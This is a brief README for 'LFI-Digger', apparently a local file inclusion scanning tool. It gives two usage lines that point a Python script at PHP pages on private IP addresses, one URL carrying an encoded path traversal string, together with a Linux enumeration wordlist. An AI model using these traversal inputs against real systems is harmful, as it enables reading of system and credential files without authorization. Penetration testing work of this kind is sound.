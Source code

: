 # LFI-Digger

Usage example:
<br/>
python lfidigger.py "http://10.17.0.11/lfi_vulnerable.php?lfiparam=%2f..%2f..%2f<b>LFI</b>" ./dics/linux_enum.txt
<br/>
python lfidigger.py http://10.17.0.30/page.php?c=<b>LFI</b> ./dics/linux_enum.txt
